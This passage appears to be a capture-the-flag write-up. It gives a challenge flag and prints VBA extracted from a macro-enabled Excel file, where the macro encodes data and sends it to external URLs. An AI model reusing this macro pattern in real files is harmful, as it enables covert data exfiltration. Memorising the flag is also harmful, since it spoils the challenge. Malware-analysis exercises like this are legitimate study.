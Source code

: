 **Flag: DUCTF{monkey.doc.ps1_Invoke-ReflectivePEInjection_emu.dll-kiwi.dll_5up3r-5ecur3}**

### Macro Magic: 

In this challenge they gave us two files: **Monke.xlsm**, **Capture.pcapng**. First, I analysed Monke.xlsm by extracting VBA code inside it: 

```
Sub macro1()
    Dim Path As String
    Dim wb As Workbook
    Dim A As String
    Dim B As String
    Dim C As String
    Dim D As String
    Dim E As String
    Dim F As String
    Dim G As String
    Dim H As String
    Dim J As String
    Dim K As String
    Dim L As String
    Dim M As String
    Dim N As String
    Dim O As String
    Dim P As String
    Dim Q As String
    Dim R As String
    Dim S As String
    Dim T As String
    Dim U As String
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    H = "Try Harder"
    U = forensics(H)
```